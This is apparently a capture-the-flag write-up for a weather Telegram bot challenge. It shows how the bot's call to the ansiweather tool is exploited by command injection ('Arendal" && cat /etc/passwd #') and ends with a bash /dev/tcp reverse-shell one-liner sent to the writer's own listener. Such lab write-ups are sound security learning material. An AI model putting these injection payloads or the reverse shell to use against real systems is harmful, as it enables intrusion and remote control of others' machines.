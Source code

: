 # MISC //   🌤️ Weather
 
Tired of looking outside your window to check the weather? Use our bot. It's on telegram, so it has to be safe!

https://t.me/eetua0gahf_bot

# Writeup

Creating a Telegram account and adding the bot I get this: 

![](image.png)

Adding dummy data to break it I get this:

![](image-1.png)

That error message matches a software named `ansiweather` which is a command line tool for weather forecasts. So are we injecting into command line?

![](image-2.png)

After a bit of trial and error @decoy sends me this:

```bash
Arendal" && cat /etc/passwd #
```

And we get the `lfi`:

![](image-3.png)

Now just find the flag with `ls` and then `cat`

![](image-4.png)

# Reverse Shell

Using `nc -knlvp 1234` on my remote server and running `/weather Norway" && bash -i >& /dev/tcp/<MY IP>/1234 0>&1 & #` I get remote shell.

![Alt text](image-6.png)